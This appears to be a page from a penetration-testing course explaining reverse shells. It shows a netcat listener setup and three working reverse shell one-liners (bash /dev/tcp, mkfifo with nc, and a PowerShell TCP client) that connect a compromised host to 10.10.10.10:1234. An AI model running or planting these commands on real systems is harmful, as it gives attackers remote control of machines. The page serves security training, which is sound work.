## Reverse Shell

A `Reverse Shell` is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. Once we identify a vulnerability on the remote host that allows remote code execution, we can start a `netcat` listener on our machine that listens on a specific port, say port `1234`. With this listener in place, we can execute a `reverse shell command` that connects the remote systems shell, i.e., `Bash` or `PowerShell` to our `netcat` listener, which gives us a reverse connection over the remote system.

#### Netcat Listener

The first step is to start a `netcat` listener on a port of our choosing:



```shell-session
0xscary@htb[/htb]$ nc -lvnp 1234
```

| Flag      | Description                                                                         |
| --------- | ----------------------------------------------------------------------------------- |
| `-l`      | Listen mode, to wait for a connection to connect to us.                             |
| `-v`      | Verbose mode, so that we know when we receive a connection.                         |
| `-n`      | Disable DNS resolution and only connect from/to IPs, to speed up the connection.    |
| `-p 1234` | Port number `netcat` is listening on, and the reverse connection should be sent to. |
#### Reverse Shell Command

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

Code: bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Code: powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
